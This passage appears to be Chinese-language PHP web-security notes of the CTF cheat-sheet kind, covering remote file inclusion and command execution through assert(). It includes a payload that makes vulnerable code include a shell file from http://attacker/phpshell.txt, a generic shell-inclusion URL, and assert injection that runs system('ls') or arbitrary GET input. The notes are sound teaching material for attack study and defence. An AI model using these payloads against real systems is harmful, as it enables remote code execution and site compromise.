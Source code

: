 只适用 Windows，点号需要长于 256。

## 远程文件包含

远程文件包含，Remote File Inclusion，RFI。

```powershell
<?php
if ($route == "share") {
  require_once $basePath . "/action/m_share.php";
} elseif ($route == "sharelink") {
  require_once $basePath . "/action/m_sharelink.php";
}
```

构造变量 basePath 的值。

```powershell
/?basePath=http://attacker/phpshell.txt?
```

最终的代码执行了

```powershell
require_once "http://attacker/phpshell.txt?/action/m_share.php";
```

问号后的部分被解释为 URL 的 querystring，这也是一种「截断」。

普通远程文件包含

```powershell
?file=[http|https|ftp]://example.com/shell.txt
```

# 命令执行

## assert

assert 函数的参数可以为布尔类型的值，也可以是字符串，当参数为字符串时，会被当作 PHP 代码执行

```php
// 可以执行 php 代码
$page = "flag'.system(\"ls\").'";
$file = "templates/" . $page . ".php";
// 这里构造后的新字符串如下，
// strpos('templates/'.system("ls").'.php', '..') === false
assert("strpos('$file', '..') === false");

// 当test.php?a=phpinfo()时，phpinfo()会被执行。
$a=$_GET['a'];
assert($a);
```

## 反引号 `
